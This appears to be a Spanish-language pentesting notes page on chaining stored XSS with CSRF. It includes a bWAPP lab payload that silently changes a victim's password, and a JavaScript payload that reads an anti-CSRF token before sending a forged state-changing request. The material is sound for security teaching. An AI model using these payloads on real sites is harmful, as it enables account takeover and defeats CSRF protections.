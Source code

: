 Fuente:

- [http://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html](http://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)
- [https://medium.com/@tattwei46/what-is-sql-injection-and-xss-2a3f2e7ea0d](https://medium.com/@tattwei46/what-is-sql-injection-and-xss-2a3f2e7ea0d)

## XSS a RCE

- [https://loca1gh0s7.github.io/MFH-from-XSS-to-RCE-loca1gh0st-exercise/](https://loca1gh0s7.github.io/MFH-from-XSS-to-RCE-loca1gh0st-exercise/)


## CSRF VIA XSS

Las aplicaciones web que sufren la vulnerabilidad XSS y CSRF le permiten manipular la contraseña del usuario o la dirección de correo electrónico registrada.

En el caso de que tengamos un CSRF y un XSS almacenado, la idea es agarrar la url donde se actualiza la contraseña y apuntar a ella mediante una inyeccion xss:

```javascript
<img
src=”http://192.168.0.14/bWAPP/csrf_1.php?password_new=hola123&password_conf=hola123
&action=change”>
```

esto lo colocamos en el campo vulnerable de XSS y como se almacena, cuando otro usuario ingrese a la pagina donde se almaceno ese XSS obviamente vera que una imagen no cargapero ya le habremos cambiado la contraseña a hola123.

### CHAINING XSS + CSRF + BYPASS CSRF TOKEN

Las solicitudes maliciosas entre sitios están fuera de la ecuación debido a las protecciones del mismo origen/mismo sitio. Todavía podemos realizar un ataque CSRF a través de la vulnerabilidad XSS almacenada que existe. Específicamente, aprovecharemos la vulnerabilidad XSS almacenada para emitir una solicitud de cambio de estado contra la aplicación web. ¡Una solicitud a través de XSS omitirá cualquier protección del mismo origen/mismo sitio ya que se derivará del mismo dominio!

Payload XSS:

```javascript
<script>
//primera peticion para obtener el CSRF token
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
	//recuperacion del CSRF Token
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];

	//segunda peticion para realizar el Ataque CSRF pasando el Anti CSRF-Token
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
